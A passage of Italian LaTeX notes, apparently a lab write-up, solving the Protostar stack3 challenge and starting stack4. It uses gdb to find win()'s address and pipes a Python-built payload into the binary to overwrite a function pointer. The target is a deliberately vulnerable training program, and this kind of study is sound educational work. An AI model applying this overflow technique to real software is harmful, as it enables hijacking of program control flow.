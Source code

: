 Per recuperare l'indirizzo della funzione win(), utilizziamo il debugger di GNU Linux, ossia \textbf{gdb}.
Avviamo gdb con stack3 tramite il comando:
\begin{lstlisting}[style=bashstyle]
    gdb -q /opt/protostar/bin/stack3
    # -q serve per non stampare a video info di copyright
\end{lstlisting}
Usiamo il comando \textcolor{red}{p} per stampare l'indirizzo di win():
\begin{lstlisting}[style=bashstyle]
    $gdb -q /opt/protostar/bin/stack3 
    Reading symbols from /opt/protostar/bin/stack3...done
    (gdb) p win 
    $1 = {void (void)} 0x8048424 <win>
\end{lstlisting}
L'input richiesto può essere generato con Python, facendo attenzione all'ordine dei byte:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"'
\end{lstlisting} 
Mandiamo stack3 in esecuzione con l'input appena creato:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostar/bin/stack3 
\end{lstlisting}
Otteniamo il messaggio \textcolor{red}{calling function pointer, jumping to 0x8048424 code flow succesfully changed}.

Vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # avvio stack3 in gdb
    gdb -q /opt/protostar/bin/stack3
    # stampo indirizzo win
    p win
    # scrivo script python e mando in pipe a stack3
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostar/bin/stack3 
\end{lstlisting}

\section{Stack 4}
Stack4 esamina il registro EIP e come può essere sovrascritto per modificare il flusso di un programma.
Il programma in questione si chiama \textbf{stack4.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack4}

